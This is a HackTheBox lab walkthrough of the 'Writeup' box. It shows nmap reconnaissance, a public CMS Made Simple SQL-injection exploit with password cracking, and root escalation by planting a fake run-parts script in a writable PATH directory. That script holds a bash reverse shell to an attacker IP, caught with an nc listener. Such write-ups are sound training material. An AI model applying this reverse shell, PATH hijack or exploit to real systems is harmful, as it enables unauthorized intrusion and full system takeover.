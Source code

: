 ```yaml
---
title: "Hackthebox Writeup Walkthrough"
date: 2021-07-04 21.00 
categories: [Hackthebox, Linux]
tags: [abusing path variable,SQLi]
author: CEngover
image: /assets/img/posts/writeup/writeup.png
---
```

Hello everyone. In this article, I'm going to try to explain writeup box solution which is one of the free hackthebox machines.

## Reconnaissance
Let's start with enumeration process. I added machine's ip into my hosts file. If you want to add too, you can add ip with `sudo echo "10.10.10.138     writeup.htb" >> /etc/hosts` easly.

After this small step, let's do a nmap scanning.

```
cengover@kali:~/htb/writeup$ sudo nmap -sC -sV -oA nmap/writeup-open-ports 10.10.10.138
[sudo] password for cengover: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 12:32 EDT
Nmap scan report for 10.10.10.138
Host is up (0.093s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As seen in the above, we have 2 ports open. They're running ssh and http services. We cannot do directory fuzzing because the machine is banning us for a while. Let's continue with manuel enumeration. We can check that is there a `robots.txt, admin.php, login.php` etc. We can get some information by visiting robots.txt file and it says that there is also folder named `/writeup`.

```bash
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```

![Writeup index page](/assets/img/posts/writeup/writeup_index.png)

After checking source code of the index page, we found that this page was built by CMS Made Simple. 

```bash
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

## Getting Initial Access

We can try to search a exploit that belongs to this cms. After a little bit searching, I found  a sqli exploit. Once we run this exploit, we'll get following informations.

```bash
cengover@kali:~/htb/writeup$ python3 46635.py -u http://writeup.htb/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807  
[+] Username found: jkr  
[+] Email found: jkr@writeup.htb  
[+] Password found: 62def4866937f08cc13bab43bb14e6f7  
[+] Password cracked: raykayjay9
```

After cracking the password, we can get initial access with this creds.

![Getting User](/assets/img/posts/writeup/getting_user.png)

I ran pspy tool for monitoring the processes. I saw that after every succesfull login the following commands are running.

```bash
2021/07/04 13:47:12 CMD: UID=0    PID=24398  | sshd: [accepted]
2021/07/04 13:47:12 CMD: UID=0    PID=24399  | sshd: [accepted]  
2021/07/04 13:47:24 CMD: UID=0    PID=24400  | sshd: jkr [priv]  
2021/07/04 13:47:24 CMD: UID=0    PID=24401  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/04 13:47:24 CMD: UID=0    PID=24402  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/04 13:47:24 CMD: UID=0    PID=24403  | uname -rnsom 
2021/07/04 13:47:24 CMD: UID=0    PID=24404  | sshd: jkr [priv]  
```

Let's see where run-parts command is located.

```bash
jkr@writeup:~$ which run-parts
/bin/run-parts
```
## Privilege Escalation

It's in `bin` folder so the folder is last folder in path search order which means if we can inject a custom run-parts command one of these path, our command can be triggered. Let's see what we can do. First of all, check these paths permissions.

```bash
jkr@writeup:~$ ls -ld /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19  2019 /bin
drwxr-xr-x 2 root root   4096 Aug 23  2019 /sbin
drwxr-xr-x 2 root root  20480 Aug 23  2019 /usr/bin
drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Aug 23  2019 /usr/sbin
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ 
```

As seen in the above `jkr` is member of staff group and this group has privileges on `/usr/local/bin` and `/usr/local/sbin` directories. We can create a reverse shell named run-parts and put it to one of these directories. 

```bash
jkr@writeup:/usr/local/bin$ nano run-parts
jkr@writeup:/usr/local/bin$ cat run-parts
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.173/8080 0>&1
jkr@writeup:/usr/local/bin$ chmod +x run-parts
jkr@writeup:/usr/local/bin$ which run-parts
/usr/local/bin/run-parts

```


![Getting Root](/assets/img/posts/writeup/getting_root.png)

Firstly, we need to set a listener by running this command `nc -lvnp 8080`. After creating new ssh session, we have to get a root shell on the box.


